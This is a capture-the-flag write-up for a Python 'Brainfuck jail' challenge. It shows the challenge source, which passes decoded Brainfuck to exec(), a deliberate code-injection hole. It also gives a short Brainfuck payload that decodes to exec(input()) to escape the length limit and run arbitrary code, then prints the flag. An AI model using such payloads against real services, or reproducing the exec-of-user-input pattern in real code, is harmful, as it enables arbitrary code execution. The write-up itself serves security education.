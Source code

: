 ### bf jail [127]
`**author: dfoo**`
**Jail but with my best friend? That doesn’t sound too bad. Oh wait…**
`**nc chal.wwctf.com 6002**`
and we had a `**chall.py**` file with it which had:

```python
#!/usr/bin/env python3
import sys


def bf(code):
    output = ""
    s = []
    matches = {}
    tape = [0] * 1000000
    for i, j in enumerate(code):
        if j == "[":
            s.append(i)
        if j == "]":
            m = s.pop()
            matches[m] = i
            matches[i] = m
    cp = 0
    p = 0
    while cp < len(code):
        if code[cp] == "+":
            tape[p] = (tape[p] + 1) % 256
        if code[cp] == "-":
            tape[p] = (tape[p] - 1) % 256
        if code[cp] == ",":
            c = sys.stdin.read(1)
            tape[p] = (ord(c) if c else 0) % 256
        if code[cp] == ".":
            output += chr(tape[p])
        if code[cp] == "<":
            p -= 1
        if code[cp] == ">":
            p += 1
        if code[cp] == "[":
            if not tape[p]:
                cp = matches[cp]
        if code[cp] == "]":
            if tape[p]:
                cp = matches[cp]
        cp += 1

    return output


if __name__ == "__main__":
    code = input("> ")
    if len(code) > 200:
        print("200 chars max")
        sys.exit(0)
    if not all(c in set("+-<>[],.") for c in code):
        print("nope")
        exit(0)
    code = bf(code)
    exec(code)
```

Reading the code, we can understand that the challenge is letting the user inject some python code, but here is the tricky part, it need to be written with the brainfuck interpretation.

What you would like to do here is to simply list all the files and then read the file that has the flag. **BUT**, the author added a 200 chars max limit. and anything like:
```python
import os; print(os.listdir())
```
or:
```python
print(open("flag.txt").read())
```
Would exceed the 200 chars limit when written in Brainfuck

Going back to code, we can see that the author is calling a function called `**exec()**` to execute his code, so the trick here is we want to use that to open a window where we can push our code then **`exec()`** it too.

and here is what I tried:
```python
exec(input())
```
which is :
```brainfuck
--[----->+<]>-.[--->+<]>+.-[->+++<]>.--.[->+++<]>-.-----[->+++<]>.+++++.++.+++++.-.+[--->+<]>+.+..>++++++++++.
```
in Brainfuck and it is less then 200 chars (110).

and injecting that gave me an input window where i can simply put any code I want:
![Alt text](Pasted%20image%2020250728212010.png)
so, I just completed simply with:
![Alt text](Pasted%20image%2020250728212100.png)

Flag: `wwf{4n0th3r_CTF_4n0t3r_br41nfcK_ch4ll_7696bd540337f}`

